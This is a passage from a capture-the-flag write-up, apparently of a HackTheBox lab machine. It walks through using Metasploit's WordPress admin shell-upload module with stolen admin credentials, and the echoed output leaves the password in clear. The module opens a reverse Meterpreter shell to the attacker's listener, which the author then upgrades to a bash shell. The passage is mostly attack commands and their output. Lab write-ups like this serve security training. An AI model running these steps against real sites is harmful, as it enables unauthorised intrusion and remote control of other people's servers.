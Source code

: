 Now let's set all the options:

```text
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.10.10.229
rhost => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.114
lhost => 10.10.14.114
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lport 1234
lport => 1234
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username administrator
username => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password <<HIDDEN>>
password => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /main
targeturi => /main
```

Let's start the exploit and let Meterpreter do it's work:

```text
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.114:1234 
[*] Authenticating with WordPress using administrator:<<HIDDEN>>...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /main/wp-content/plugins/VtEDxftBOy/PiCsbQivTC.php...
[*] Sending stage (39282 bytes) to 10.10.10.229
[*] Meterpreter session 1 opened (10.10.14.114:1234 -> 10.10.10.229:35050) at 2021-03-21 17:26:27 +0000
[+] Deleted PiCsbQivTC.php
[+] Deleted VtEDxftBOy.php
[+] Deleted ../VtEDxftBOy

meterpreter > 
```

First thing is get ourselves a proper shell:

```text
meterpreter > shell
Process 4770 created.
Channel 0 created.
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory

cd tmp
python3 -c "import pty;pty.spawn('/bin/bash')"
nginx@spectra /tmp $ 
```

## User Flag
